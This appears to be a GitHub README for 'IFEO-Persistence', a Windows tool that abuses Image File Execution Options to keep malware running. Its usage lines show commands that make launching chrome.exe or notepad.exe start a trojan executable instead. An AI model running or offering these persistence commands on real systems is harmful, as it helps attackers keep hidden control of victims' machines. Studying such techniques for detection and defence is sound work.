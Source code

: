 # IFEO-Persistence

利用IFEO做权限维持

## Usage
persist.exe <Target Process Name> <Evil File Absolute Path> \
eg:
persist.exe chrome.exe c:\temp\trojan.exe \
persist.exe notepad.exe c:\users\public\1.exe
